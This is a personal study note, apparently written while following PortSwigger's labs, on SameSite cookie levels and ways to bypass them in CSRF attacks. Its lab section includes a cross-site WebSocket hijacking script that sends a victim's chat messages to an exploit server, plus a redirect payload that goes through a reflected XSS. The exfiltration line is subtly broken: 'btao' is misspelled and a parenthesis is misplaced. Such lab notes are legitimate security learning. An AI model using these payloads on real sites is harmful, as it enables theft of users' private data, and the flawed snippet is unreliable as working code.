 
2024-07-14 22:20

Source: #portswigger 

Tags: [[CSRF]]

`SameSite` is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites.

Since 2021, Chrome applies `Lax` `SameSite` restrictions by default if the website that issues the cookie doesn't explicitly set its own restriction level. 

You may come across the term "effective top-level domain" (`eTLD`). This is just a way of accounting for the reserved multipart suffixes that are treated as top-level domains in practice, such as `.co.uk.` 

If the website issuing the cookie doesn't explicitly set a `SameSite` attribute, Chrome automatically applies `Lax` restrictions by default. This means that the cookie is only sent in cross-site requests that meet specific criteria, even though the developers never configured this behavior.
##### Strict 

If a cookie is set with the `SameSite=Strict` attribute, browsers will not send it in any cross-site requests. In simple terms, this means that if the target site for the request does not match the site currently shown in the browser's address bar, it will not include the cookie. 
##### Lax

 `Lax` `SameSite` restrictions mean that browsers will send the cookie in cross-site requests, but only if both of the following conditions are met:
- The request uses the `GET` method.
- The request resulted from a top-level navigation by the user, such as clicking on a link.
##### None

- If a cookie is set with the `SameSite=None` attribute, this effectively disables `SameSite` restrictions altogether, regardless of the browser. 
- There are legitimate reasons for disabling `SameSite`, such as when the cookie is intended to be used from a third-party context and doesn't grant the bearer access to any sensitive data or functionality. Tracking cookies are a typical example. 
- When setting a cookie with SameSite=None, the website must also include the Secure attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS.
#### Bypassing SameSite Lax restrictions using GET requests

If servers also use `Lax` restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a CSRF attack by eliciting a `GET` request from the victim's browser. 
As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. 

Even if an ordinary `GET` request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, `Symfony` supports the `_method `parameter in forms, which takes precedence over the normal method for routing purposes
#### Bypassing SameSite restrictions using on-site gadgets

- If a cookie is set with the` SameSite=Strict` attribute, browsers won't include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site. 
- One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters.
- Note that the equivalent attack is not possible with server-side redirects. 
If the site is redirecting then find a script that is doing the redirect, study the script, find a parameter that we can manipulate, then do directory traversal 
#### Bypassing SameSite restrictions via vulnerable sibling domains

In addition to classic `CSRF`, don't forget that if the target website supports `WebSockets`, this functionality might be vulnerable to cross-site WebSocket hijacking (CSWSH), which is essentially just a CSRF attack targeting a WebSocket handshake. 
##### Lab:
in the lab we have a chat feature that uses websockets, when capturing the request on burp we see that we send a ready message and the websocket server responds with the entire chat history that is tied to our session cookie
in http history find a response that mentions switching protocol in that corresponding request check if the request contains all the points for it to be CSRF vulnerable. 
###### samesite: None
 
with no restrictions we can add the following script on our website 
once the victim has visited the page we see that we can see the chat message from our victim now but because of the same site equals strict session cookie restriction we're only seeing chat messages or the chat message for a new chat session.

```
<script>
var webSocket = new WebSocket("lab-url/chat");

webSocket.onopen = function(evt){
	webSocket.send("READY");
};

webSocket.onmessage = function(evt){
	var message = evt.data;
	fetch("exploit-server-url/exploit?message=")+btao(message);
};
</script>
```
###### samesite: Strict

- If our application was something like a Blog I would look for the comments section and I would check whether the any of the fields in the comment section are vulnerable to a stored cross-site scripting attack because that way we could store our payload in there and send our victim a link to the post that includes our payload that we injected through cross-site scripting
- but our application is just a product page 

- we see for request with `chat.js` for example we can see that the response header `Access-Control-allow-origin` here reveals an additional sibling domain and it's hosted on the same main domain
- If there was a stored cross-site scripting or reflected cross-site scripting vulnerability within this endpoint it would still honor the same site restriction
- since there is a reflected xss vuln on the new domain 
- we see that the login (new domain) endpoint also accepts our payload as a get request
- the payload we used in `samesite: None` can be used on the new domain
- we url encode the whole payload and add it to the url of the new domain 
- when crafting the payload on the exploit server we write
```
<script>
	document.location="newdomain-url/urlencoded-payload";
</script>
```
#### Bypassing SameSite Lax restrictions with newly issued cookies

If a website doesn't include a `SameSite` attribute when setting a cookie, Chrome automatically applies Lax restrictions by default. However, to avoid breaking single sign-on (SSO) mechanisms, it doesn't actually enforce these restrictions for the first 120 seconds on top-level POST requests. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.

This two-minute window does not apply to cookies that were explicitly set with the `SameSite=Lax` attribute.

It's somewhat impractical to try timing the attack to fall within this short window. On the other hand, if you can find a gadget on the site that enables you to force the victim to be issued a new session cookie, you can preemptively refresh their cookie before following up with the main attack. For example, completing an OAuth-based login flow may result in a new session each time as the OAuth service doesn't necessarily know whether the user is still logged in to the target site. 